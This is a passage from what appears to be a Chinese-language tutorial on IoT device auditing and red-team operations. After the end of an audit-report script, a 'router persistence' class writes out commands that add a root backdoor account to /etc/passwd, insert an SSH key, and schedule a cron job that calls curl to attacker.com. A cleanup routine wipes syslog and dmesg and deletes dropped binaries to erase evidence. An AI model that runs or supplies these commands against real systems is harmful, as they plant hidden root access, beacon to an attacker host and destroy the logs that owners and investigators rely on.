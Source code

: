 ```python
        
        # 生成统计信息
        for target, result in self.results.items():
            if result['vulnerabilities']:
                report['vulnerable_devices'] += 1
        
        # 保存报告
        with open('iot_audit_report.json', 'w') as f:
            json.dump(report, f, indent=2)
        
        return report

# 使用示例
if __name__ == "__main__":
    audit = IoTDeviceAudit("targets.txt")
    
    for target in audit.targets:
        result = audit.run_comprehensive_scan(target)
        audit.results[target] = result
    
    report = audit.generate_report()
    print("Audit completed. Report saved to iot_audit_report.json")
```

---

### 十六、红队行动中的高级应用

#### 1. 持久化访问技术

```python
class RouterPersistance:
    def __init__(self, exploit_module):
        self.exploit = exploit_module
    
    def establish_backdoor(self):
        # 1. 创建后门账户
        self.exploit.run("echo 'backdoor:$(openssl passwd -1 password123):0:0:root:/root:/bin/sh' >> /etc/passwd")
        
        # 2. 添加 SSH 密钥
        self.exploit.run("mkdir -p /root/.ssh")
        self.exploit.run("echo 'ssh-rsa AAAAB3...' >> /root/.ssh/authorized_keys")
        
        # 3. 创建定时任务保持访问
        self.exploit.run("echo '*/5 * * * * curl http://attacker.com/keepalive' >> /etc/crontab")
        
        # 4. 修改防火墙规则
        self.exploit.run("iptables -I INPUT -p tcp --dport 22 -j ACCEPT")
    
    def clean_evidence(self):
        # 清理攻击痕迹
        commands = [
            "dmesg -c",
            "echo '' > /var/log/syslog",
            "find /tmp -name '*.elf' -delete"
        ]
        
        for cmd in commands:
            self.exploit.run(cmd)
```
